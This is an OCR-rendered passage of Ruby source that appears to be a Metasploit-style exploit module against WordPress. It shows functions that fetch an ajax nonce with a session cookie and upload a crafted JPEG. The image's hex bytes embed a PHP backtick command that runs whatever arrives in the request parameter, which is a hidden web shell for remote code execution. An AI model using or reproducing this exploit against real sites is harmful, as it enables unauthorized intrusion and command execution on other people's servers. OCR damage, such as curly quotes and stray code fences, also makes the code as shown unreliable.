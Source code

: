 fail_with(Failure::NotFound, 'Failed to retrieve theme') unless theme

theme 
```

end

def get_ajaxnonce(cookie)

uri = normalize_uri(datastore[‘TARGETURI’], ‘wp-admin’, ‘admin-ajax.php’)

res = send_request_cgi(

‘method’    => ‘POST’,

‘uri’       => uri,

‘cookie’ => cookie,

‘vars_post’  => {

‘action’ => ‘query-attachments’,

‘post_id’ => ‘0’,

‘query[item]’ => ‘43’,

‘query[orderby]’ => ‘date’,

‘query[order]’ => ‘DESC’,

‘query[posts_per_page]’ => ‘40’,

‘query[paged]’ => ‘1’

}

)

fail_with(Failure::NotFound, ‘Unable to reach page to retrieve the ajax nonce’) unless res && res.code == 200 && res.body && !res.body.empty?

a_nonce = res.body.scan(/“edit”:"(\w+)"/).flatten.first

fail_with(Failure::NotFound, ‘Unable to retrieve the ajax nonce’) unless a_nonce

```
a_nonce 
```

end

def upload_file(img_name, wp_nonce, cookie)

img_data = %w[

FF D8 FF E0 00 10 4A 46 49 46 00 01 01 01 00 60 00 60 00 00 FF ED 00 38 50 68 6F

74 6F 73 68 6F 70 20 33 2E 30 00 38 42 49 4D 04 04 00 00 00 00 00 1C 1C 02 74 00

10 3C 3F 3D 60 24 5F 47 45 54 5B 30 5D 60 3B 3F 3E 1C 02 00 00 02 00 04 FF FE 00

3B 43 52 45 41 54 4F 52 3A 20 67 64 2D 6A 70 65 67 20 76 31 2E 30 20 28 75 73 69

6E 67 20 49 4A 47 20 4A 50 45 47 20 76 38 30 29 2C 20 71 75 61 6C 69 74 79 20 3D
```